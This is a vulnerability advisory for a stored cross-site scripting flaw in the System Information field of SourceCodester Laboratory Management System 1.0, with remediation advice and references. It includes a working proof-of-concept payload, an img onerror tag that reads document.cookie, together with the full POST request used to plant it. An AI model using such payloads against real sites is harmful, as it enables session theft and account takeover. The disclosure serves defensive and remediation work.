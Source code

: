 Stored Cross-Site Scripting Vulnerability in SourceCodester Laboratory Management System 1.0 :

Vendor: Sourcecodester
Product: Laboratory Management System 1.0
Product URL: Laboratory Management System 1.0
Executive Summary

Stored Cross-Site Scripting (SXSS) vulnerability in Laboratory Management System 1.0 and earlier allows attacker to inject the Malicious JavaScript Code in the "System Information" input field. The malicious code can then be executed whenever the vulnerable web page is accessed by any user, staff or even admin and will remain persistent. It will eventually result in account takeover as the session cookies can be accessed by the malicious JavaScript Code. Issue Details

Vulnerability Name: Stored XSS in System Information
Severity: High
Affected URL: php-lms/admin/?page=system_info
Affected Parameter: System Information
HTTP Method: POST
Issue Description

The web application is vulnerable to Cross-Site Scripting (SXSS) attacks in the "System Information" input field. An attacker can exploit this vulnerability by inputting the malicious JavaScript code in the HTTP POST request to create the user. In the provided example, the attacker modifies the "System Information" parameter to insert a malicious JavaScript Code that can also access the authentication cookies. Proof Of Concept

Configure a web proxy in your browser.

Navigate to the URL in the browser http://localhost/php-lms/admin/?page=system_info

Fill in the desired data in the input fields. Intercept the request in the web proxy. Modify the System Information parameter as shown below and send the request to the server.

Content-Disposition: form-data; name="name"

"><img src=x onerror=alert(document.cookie)>

In the browser just create an account and navigate to homepage

https://drive.google.com/file/d/1Fm7ppEvqs5UrJOK7EuMMQM4X4KpPTBTq/view?usp=drive_link
https://drive.google.com/file/d/1xUbfvAwPu70JZrQoomgWTulL4t5j9zbF/view?usp=drive_link

 Payload:

Content-Disposition: form-data; name="name"

"><img src=x onerror=alert(document.cookie)>

Request:

POST /php-lms/classes/SystemSettings.php?f=update_settings HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:125.0) Gecko/20100101 Firefox/125.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
X-Requested-With: XMLHttpRequest
Content-Type: multipart/form-data; boundary=---------------------------38752725403898646351608141163
Content-Length: 663
Origin: http://localhost
Connection: close
Referer: http://localhost/php-lms/admin/?page=system_info
Cookie: PHPSESSID=mmoofhiuab699hj8pkoi61nmnr
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin

-----------------------------38752725403898646351608141163
Content-Disposition: form-data; name="name"

"><img src=x onerror=alert(document.cookie)>
-----------------------------38752725403898646351608141163
Content-Disposition: form-data; name="short_name"

LMS - PHP
-----------------------------38752725403898646351608141163
Content-Disposition: form-data; name="img"; filename=""
Content-Type: application/octet-stream


-----------------------------38752725403898646351608141163
Content-Disposition: form-data; name="cover"; filename=""
Content-Type: application/octet-stream


-----------------------------38752725403898646351608141163--


Impact:

Stored XSS attacks can have serious consequences, such as Account takeover by stealing cookies, stealing sensitive data, modifying the content of the web page, or redirecting users to a malicious sites. Remediation:

Implement proper input validation and output encoding to prevent malicious code from being injected into the web application. Use server-side validation to ensure that user input is properly sanitized before being stored in a database or displayed on a web page. Use output encoding to ensure that any user input that is displayed on the web page is properly encoded to prevent malicious code from being executed. References:

https://portswigger.net/web-security/cross-site-scripting/stored

https://owasp.org/www-community/attacks/xss/ Weakness Enumeration:

CWE-79

This report highlights the Stored XSS vulnerability present in the System Information parameter of php-lms/admin/?page=system_info, including the Proof of Concept, its impact, remediation steps and references for further guidance on mitigation strategies.